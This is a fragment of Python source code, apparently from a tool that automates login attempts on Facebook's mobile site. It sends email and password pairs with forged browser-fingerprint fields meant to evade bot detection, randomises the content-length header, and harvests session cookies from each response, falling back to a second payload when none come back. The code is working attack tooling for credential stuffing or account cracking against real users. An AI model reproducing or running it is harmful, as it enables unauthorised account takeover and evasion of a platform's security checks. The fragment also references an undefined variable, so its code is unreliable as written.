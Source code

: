 								"m_ts": str(payload["m_ts"]),
								"jazoest": str(payload["jazoest"]),
								"li": str(payload["li"]),
								"try_number": str(payload["try_number"]),
								"unrecognized_tries": str(payload["unrecognized_tries"]),
								"bi_xrwh": str(payload["bi_xrwh"]),
								"prefill_contact_point": str(eml_dev),
								"prefill_source": "provided_or_soft_matched",
								"prefill_type": "contact_point",
								"first_prefill_source": "browser_dropdown",
								"first_prefill_type": "contact_point",
								"had_cp_prefilled": False,
								"had_password_prefilled": False,
								"is_smart_lock": False,
								"bi_wvdp": {"hwc":True,"hwcr":True,"has_dnt":True,"has_standalone":False,"wnd_toStr_toStr":"function toString() { [native code] }","hasPerm":True,"permission_query_toString":"function query() { [native code] }","permission_query_toString_toString":"function toString() { [native code] }","has_seWo":True,"has_meDe":True,"has_creds":True,"iframeProto":"function get contentWindow() { [native code] }","remap":False,"iframeData":{"hwc":True,"hwcr":False,"has_dnt":True,"has_standalone":False,"wnd_toStr_toStr":"function toString() { [native code] }","hasPerm":True,"permission_query_toString":"function query() { [native code] }","permission_query_toString_toString":"function toString() { [native code] }","has_seWo":True,"has_meDe":True,"has_creds":True}},
								"email": str(eml_dev),
								"encpass": "#PWD_BROWSER:0:{}:{}".format(str(random.randint(1000000000, 9999999999)), str(san_dev)),
								"bi_xrwh": "0",
								"__dyn": "",
								"__csr": "",
								"__req": "e",
								"__a": "",
								"__user": "0"})

				ses_dev.headers.update({
					"user-agent": user_agent,
					"referer": fb+url_post,
					"Host": "m.facebook.com",
					"accept": "*/*",
					"sec-ch-ua-mobile": "?1",
					"accept-encoding": "gzip, deflate, br",
					"accept-language": "id,en-US;q=0.9,en;q=0.8",
					"x-fb-lsd": str(payload["lsd"]),
					"content-length": str(random.randint(1000, 5000)),
					"content-type": "application/x-www-form-urlencoded"
					})
				# print "===>",eml_dev," | ", san_dev

				pay_ = {"email": str(eml_dev), "encpass": "#PWD_BROWSER:0:{}:{}".format(str(random.randint(1000000000, 9999999999)), str(san_dev))}
				login_dev = ses_dev.post(fb+url_post, data=pay_dev, allow_redirects=False).cookies
				cookie = login_dev.get_dict()
				if len(login_dev.get_dict()) == 0:
					login_dev = ses_dev.post(fb+url_post, data=pay_, allow_redirects=False).cookies
